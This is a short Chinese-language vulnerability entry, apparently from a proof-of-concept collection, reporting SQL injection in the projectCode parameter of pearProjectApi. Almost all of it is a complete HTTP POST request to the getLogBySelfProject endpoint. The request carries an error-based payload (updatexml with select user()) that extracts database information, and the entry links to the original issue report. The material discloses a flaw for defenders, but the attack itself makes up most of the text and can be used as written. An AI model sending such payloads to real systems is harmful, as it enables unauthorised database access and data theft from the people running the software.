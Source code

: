 # pearProjectApi系统接口projectCode存在SQL注入漏洞

## poc

```javascript
POST /index.php/project/project/getLogBySelfProject HTTP/2
Host: 
Cookie: se0d06741=5rkiv0sqvn1otra27va1jlfgfo
Content-Length: 100
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Organizationcode: 6v7be19pwman2fird04gqu53
Sec-Ch-Ua-Mobile: ?0
Authorization: bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiIiLCJhdWQiOiIiLCJpYXQiOjE2NzY5NDU0MTAsIm5iZiI6MTY3Njk0NTQxMCwiZGF0YSI6eyJjb2RlIjoiNnY3YmUxOXB3bWFuMmZpcmQwNGdxdTUzIn0sInNjb3BlcyI6ImFjY2VzcyIsImV4cCI6MTY3NzU1MDIxMH0.G18ME7UI0EHAxaTSV751smgNfETb1Q0O0e9mv-6L42I
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: application/json, text/plain, /
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

page=1&pageSize=123&projectCode=121312312312'+or+updatexml(1,concat(0x7e,(select+user()),0x7e),1)%23
```

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501241001031.png)

## 漏洞来源

- https://github.com/a54552239/pearProjectApi/issues/32